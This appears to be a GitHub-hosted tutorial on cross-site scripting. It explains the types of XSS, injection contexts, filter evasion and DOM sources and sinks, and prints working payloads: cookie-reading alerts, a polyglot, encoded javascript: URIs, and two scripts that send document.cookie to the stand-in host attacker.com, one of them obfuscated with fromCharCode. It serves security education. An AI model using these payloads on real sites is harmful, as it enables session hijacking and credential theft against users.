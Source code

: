 ## Types of XSS

- **Reflected XSS**: This attack relies on the user-controlled input reflected to the user. For instance, if you search for a particular term and the resulting page displays the term you searched for (**_reflected_**), the attacker would try to embed a malicious script within the search term.
- **Stored XSS**: This attack relies on the user input stored in the website’s database. For example, if users can write product reviews that are saved in a database (**_stored_**) and being displayed to other users, the attacker would try to insert a malicious script in their review so that it gets executed in the browsers of other users.
- **DOM-based XSS**: This attack exploits vulnerabilities within the Document Object Model (**DOM**) to manipulate existing page elements without needing to be reflected or stored on the server. This vulnerability is the least common among the three.
## Implications of XSS
There are many implications of XSS. Below, we list a few of them.

**Session hijacking**
As XSS can be used to steal session cookies, attackers can take over the session and impersonate the victim if successful.

**Phishing and credential theft**
Leveraging XSS, attackers can present a fake login prompt to the user. In one recent case, the browser’s page was partially hidden by a dialogue box requesting users to connect to their cryptocurrency wallet.

**Social engineering**
Using XSS, an attacker can create a legitimate-looking pop-up or alert within a trusted website. This can trick users into clicking malicious links or visiting malicious websites.

**Content manipulation and defacement**
In addition to phishing and social engineering, an attacker might use XSS to change the website for other purposes, such as inflicting damage on the company’s reputation.

**Data exfiltration**
XSS can access and exfiltrate any information displayed on the user’s browser. This includes sensitive information such as personal data and financial information.

**Malware installation**
A sophisticated attacker can use XSS to spread malware. In particular, it can deliver drive-by download attacks on the vulnerable website.

## Reflected XSS
**Reflected XSS** is a type of XSS vulnerability where a malicious script is reflected to the user’s browser, often via a **crafted URL** or **form submission**. Consider a search query containing `<script>alert(document.cookie)</script>`; many users wouldn’t be suspicious about such a URL, even if they look at it up close. If processed by a vulnerable web application, it will be executed within the context of the user’s browser.

## Stored XSS
Stored XSS, or Persistent XSS, is a web application security vulnerability that occurs when the application stores user-supplied input and later embeds it in web pages served to other users without proper sanitization or escaping. Examples include web forum posts, product reviews, user comments, and other data stores. In other words, stored XSS takes place when user input is saved in a data store and later included in the web pages served to other users without adequate escaping.

## Context

The injected payload will most likely find its way within one of the following:

- Between HTML tags
- Within HTML tags
- Inside JavaScript

When XSS happens between HTML tags, the attacker can run `<script>alert(document.cookie)</script>`.

However, when the injection is within an HTML tag, we need to end the HTML tag to give the script a turn to load. Consequently, we might adapt our payload to `><script>alert(document.cookie)</script>` or `"><script>alert(document.cookie)</script>` or something similar that would fit in the context.

If your code is within a JavaScript string, you can close the string with `'`, complete the command with a semicolon, execute your command, and comment out the rest of the line with `//`. You can try something like this `';alert(document.cookie)//`

#### Polyglot
An XSS polyglot i a type of XSS payload that executes in multiple contexts. Regardless of the tag, and it's used to bypass filters. Take a look at this polyglot created by EdOverflow at https://polyglot.innerht.ml/
```
javascript:"/*\"/*`/*' /*<template>
</textarea></noembed></noscript></title>
</style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>
```


## Evasion
Various repositories can be consulted to build your custom XSS payload. This gives you plenty of room for experimentation. One such list is the [XSS Payload List](https://github.com/payloadbox/xss-payload-list).
However, sometimes, there are filters blocking XSS payloads. If there is a limitation based on the payload length, then [Tiny XSS Payloads](https://github.com/terjanq/Tiny-XSS-Payloads) can be a great starting point to bypass length restrictions.

If XSS payloads are blocked based on specific blocklists, there are various tricks for evasion. For instance, a horizontal tab, a new line, or a carriage return can break up the payload and evade the detection engines.

- Horizontal tab (TAB) is `9` in hexadecimal representation
- New line (LF) is `A` in hexadecimal representation
- Carriage return (CR) is `D` in hexadecimal representation

Consequently, based on the [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html), we can break up the payload. `<IMG SRC="javascript:alert('XSS');">` in various ways:

```javascript
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```
## Alternative JavaScript Syntax
Often application sanitize `<script>` tags. 
Instead of closing out an img tag and inserting a script tag, we can insert JavaScript code directly as an attribute:
```JavaScript
<img src="123" onerror="alert('XSS');"/>
```
Or we can inject in an anchor tag
```JavaScript
<a href="javascript:alert('xss')>Click me!</a>
```

## Capitalization and Encoding
We can mix encodings and capitalized letters to confuse filters:
``` HTML
<sCrIPT>location='http://attacker.com/c='+document.cookie;</sCrIPT>
```
Or using the fromCharCode() JS function to turn numbers into char:
```HTML
<scrIPT> location=String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT>
```

## Filter Logic Errors
We can exploit in any errors in the filter logic. For Example, sometimes applications removal all `<script>`tags in the user input, but do it only once. If that's the case, you can use a payload like this:
```HTML
<scrip<script>t> #payload </scrip</script>t>
```
Once the filter removes the complete `<script>` tag:
```HTML
<script> #payload </script>
```

## Source & Sink

To further understand the nature of the DOM-based XSS vulnerability, we must understand the concept of the `Source` and `Sink` of the object displayed on the page. The `Source` is the JavaScript object that takes the user input, and it can be any input parameter like a URL parameter or an input field, as we saw above.

On the other hand, the `Sink` is the function that writes the user input to a DOM Object on the page. If the `Sink` function does not properly sanitize the user input, it would be vulnerable to an XSS attack. Some of the commonly used JavaScript functions to write to DOM objects are:

- `document.write()`
- `DOM.innerHTML`
- `DOM.outerHTML`

Furthermore, some of the `jQuery` library functions that write to DOM objects are:

- `add()`
- `after()`
- `append()`

If a `Sink` function writes the exact input without any sanitization (like the above functions), and no other means of sanitization were used, then we know that the page should be vulnerable to XSS.